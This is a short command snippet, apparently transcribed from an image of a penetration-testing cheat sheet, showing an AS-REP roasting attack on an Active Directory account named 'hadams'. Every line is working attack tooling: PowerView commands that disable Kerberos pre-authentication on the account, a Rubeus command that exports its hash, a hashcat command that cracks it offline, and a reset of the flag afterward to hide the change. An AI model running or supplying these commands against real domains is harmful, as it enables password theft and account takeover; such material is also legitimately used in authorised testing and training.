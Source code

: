 ```bash
Set-DomainObject -Identity hadams -XOR @{useraccountcontrol=4194304} –Verbose


# ---------------------Abuse it---------------
# Export Hashes
.\Rubeus.exe asreproast /format:hashcat /outfile:hadams.asreproast


# crack offline
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 


# Set it back to normal
Set-DomainObject -Identity hadams -XOR @{useraccountcontrol=512} –Verbose

# Enter-PSSession
```

